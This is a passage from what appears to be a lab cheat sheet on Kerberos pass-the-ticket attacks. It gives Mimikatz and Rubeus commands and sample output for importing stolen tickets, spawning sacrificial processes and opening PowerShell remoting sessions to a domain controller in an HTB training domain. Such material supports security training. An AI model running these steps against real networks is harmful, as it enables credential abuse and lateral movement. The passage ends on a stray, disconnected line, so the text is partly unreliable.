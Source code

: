 #### Launch New CMD with Ticket
```cmd
# Import ticket and launch new command prompt
kerberos::ptt "ticket.kirbi"
misc::cmd

# New cmd.exe window opens with imported ticket
```

---

## 🔌 PowerShell Remoting with PtT

### Prerequisites
- **Remote Management Users** group membership OR
- **Administrative privileges** on target OR  
- **Explicit PowerShell Remoting permissions**

**Default Ports:**
- **TCP/5985** - HTTP
- **TCP/5986** - HTTPS

### 1. Mimikatz + PowerShell Remoting

#### Method 1: Sequential Import
```cmd
# Step 1: Import ticket with Mimikatz
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

# Step 2: Launch PowerShell and connect
powershell
Enter-PSSession -ComputerName DC01

# Result: Remote session as imported user
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### 2. Rubeus + Sacrificial Process

#### Create LOGON_TYPE 9 Process
```cmd
# Create sacrificial process (prevents TGT erasure)
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Results:
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648
```


[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt